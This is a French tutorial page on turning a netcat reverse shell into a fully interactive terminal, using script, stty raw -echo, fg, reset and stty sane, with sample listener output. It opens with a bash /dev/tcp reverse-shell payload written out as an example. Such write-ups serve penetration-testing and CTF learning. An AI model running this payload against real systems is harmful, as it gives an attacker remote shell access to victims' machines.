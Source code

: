 ```yaml
---
title: Obtenir un shell propre
sidebar_label: Obtenir un shell propre
pagination_label: Obtenir un shell propre
description: Après avoir injecté votre payload, vous obtenez un reverse shell depuis la commande netcat. Comment améliorer ce shell ?
keywords:
  - docs
  - Reverse shell
  - Netcat
  - Payload
---
```


## Pourquoi améliorer son reverse shell ?

Lorsque vous injectez votre payload (exemple: `bash -c 'bash -i >& /dev/tcp/[votre IP]/[port d'ecoute de netcat] 0>&1'`), vous obtenez un reverse shell depuis la commande netcat.

Cependant, ce shell est très limité, vous aurez donc rapidement envie de l'améliorer.

Par exemple il est impossible d'utiliser les flèches pour naviguer dans l'historique des commandes, ou encore d'interrrompre une commande avec `Ctrl+C`.

```bash
user@local$ nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.10.14.104] from (UNKNOWN) [10.10.11.211] 36734
bash: cannot set terminal process group (1): Inappropriate ioctl for device
bash: no job control in this shell
bash-5.1$ ^C
user@local$
```

## Comment améliorer son reverse shell ?

### Attacher le shell à un terminal

Pour améliorer votre shell, vous pouvez utiliser la commande `script` pour attacher votre shell à un terminal.

Depuis le shell de la victime, exécutez la commande suivante :

```bash
bash-5.1$ script /dev/null -c bash
script /dev/null -c bash
Script started, output log file is '/dev/null'.
bash-5.1$ 
```

Vous obtenez ainsi un second shell, attaché cette fois au TTY.

### Mettre à niveau le shell

Il faut maintenant indiquer à notre terminal local d'enregistrer les entrées clavier et de les envoyer au shell distant.

Mettez d'abord le shell distant en arrirère-plan avec `Ctrl+Z`.

```bash
bash-5.1$ ^Z
[1]+  Stopped                 nc -lvnp 4444
```

Utilisez la commande `stty raw -echo` depuis le shell local: cela permet de désactiver l'affichage des caractères saisis et de les envoyer directement au shell distant.

Remettez le shell distant au premier plan avec `fg`.

```bash
user@local$ stty raw -echo ; fg
```

Pour remettre le curseur au bon endroit, utilisez la commande `reset`.

```bash
user@local$ stty raw -echo ; fg
nc -lnvp 4444
             reset
```

Si le type de terminal n'est pas reconnu, indiquez `screen`.

```bash
user@local$ stty raw -echo ; fg
nc -lnvp 4444
            reset
reset: unknown terminal type unknown
Terminal type? screen
```

Vous avez maintenant accès à un shell complètement interactif, dans lequel vous pouvez utiliser les flèches pour naviguer dans l'historique des commandes, ou encore interrompre une commande avec `Ctrl+C`.

```bash
bash-5.1$ ^C
bash-5.1$ ^C
bash-5.1$
```

### Remettre le terminal local à ses valeurs par défaut

Pour quitter le shell distant, utilisez la commande `exit`.
Vous quitterz dans un premier temps le shell attaché au terminal TTY, puis tapez `exit` une seconde fois pour quitter le premier reverse shell.

```bash
bash-5.1$ exit
exit
Script done.
            bash-5.1$ exit
                          exit
user@local$
```

Depuis le shell local, **vous ne voyez plus apparaître les caractères saisis** (puisque vous avez désactivé l'affichage local avec `stty raw -echo`), utilisez la commande `stty sane` pour remettre le terminal à ses valeurs par défaut.

```bash
user@local$ stty sane # Vous tapez la commande sans la voir
user@local$ echo "salut" # Le terminal est remis à ses valeurs par défaut
salut
user@local$
```
